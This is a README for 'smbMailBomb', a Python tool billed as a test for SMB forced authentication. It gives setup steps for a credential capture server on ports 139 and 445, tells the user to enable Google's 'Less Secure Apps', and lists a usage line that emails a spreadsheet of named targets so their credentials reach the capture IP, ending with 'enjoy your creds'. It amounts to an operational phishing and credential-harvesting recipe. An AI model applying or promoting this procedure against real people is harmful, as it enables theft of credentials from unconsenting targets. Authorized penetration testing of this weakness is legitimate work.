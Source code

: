 # smbMailBomb
A command line utility to test for SMB Forced Authentication

#### Set Up Capture Server:
Ensure SMB ports 139 and 445 are open on your captuer server
Run your capture server.
#### Configure Google to allow the script:
  In the Google Admin Panel:
  Click Security
  Enable Less Secure Apps
In the google account settings
  Click Security
  Allow Less Secure Apps
#### From the command line run smbMailBomb.py and enjoy your creds: 
Usage: python3 smbMailBomb2.py -e user@yourGoogleDomain.com -p yourGooglePassword -f path/to/targets.xlsx -ip captureServerIP
  -f path to target xlsx file
  -e your google business email
  -p your google password
  -ip your capture server IP
#### Requirments:
  pandas==0.23.4
  colorama==0.3.9
#### XLSX:
Add your targets first name and email, following the template provided.

